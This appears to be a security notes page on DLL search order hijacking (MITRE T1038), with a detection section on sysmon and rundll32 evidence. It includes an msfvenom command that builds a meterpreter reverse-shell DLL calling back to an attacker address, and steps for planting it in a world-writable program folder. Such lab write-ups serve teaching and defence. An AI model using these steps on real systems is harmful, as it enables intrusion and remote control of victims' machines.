 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which will give as a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

As an example of this technique, we try launching the `CFF Explorer.exe` program installed on the victim host which attempts to load `CFF Explorer Enu.dll` from the location the program is installed. The result -  the DLL cannot be loaded \(note the NAME NOT FOUND\) as the DLL does not exist:

![](../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! The `evil-meterpreter64.dll` is now moved to `C:\Program Files\NTCore\Explorer Suite` and renamed to `CFF ExplorerENU.dll` 

![](../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../.gitbook/assets/dll-success.png)

which is good news for the attacker:

![](../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no parent process associated and with an established connection - this should raise your suspicion immediately:

![](../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives a better view of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../.gitbook/assets/dll-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

  


